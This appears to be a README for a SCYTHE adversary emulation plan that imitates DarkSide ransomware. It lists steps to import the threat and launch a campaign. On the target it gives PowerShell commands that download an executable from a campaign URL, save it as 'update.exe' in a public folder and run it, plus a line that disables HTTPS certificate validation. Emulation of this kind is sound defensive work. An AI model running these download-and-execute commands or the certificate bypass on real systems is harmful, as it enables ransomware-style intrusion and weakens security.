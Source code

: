 # DarkSide Ransomware Adversary Emulation Plan

This threat is based on CyberReason's Cyber Threat Intelligence: https://www.cybereason.com/blog/cybereason-vs-darkside-ransomware

To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance - https://raw.githubusercontent.com/scythe-io/community-threats/master/DarkSide/DarkSide_scythe_threat.json
2. Download the Virtual File System (VFS) files under DarkSide/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/DarkSide
4. Ensure HTTP Relay is running on your SCYTHE server.
5. Create a new campaign, selecting HTTP, and ensuring the communication options match your HTTP Relay.
6. Import from Existing Threat: DarkSide
7. Launch Campaign
8. Click More Actions and copy the URL for the desired EXE. 
9. In the target system, run this PowerShell command with the respective URL: powershell -Command "(New-Object Net.WebClient).DownloadFile('<SCYTHE EXE URL>','C:\Users\Public\update.exe')"
10. Execute update.exe

Note, to get around HTTPS certificate validation issues:
Open a PowerShell command prompt
PS C:\Users\LocalUser> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
PS C:\Users\LocalUser> (New-Object Net.WebClient).DownloadFile('<SCYTHE EXE URL>','C:\Users\Public\update.exe')
PS C:\Users\LocalUser> C:\Users\Public\update.exe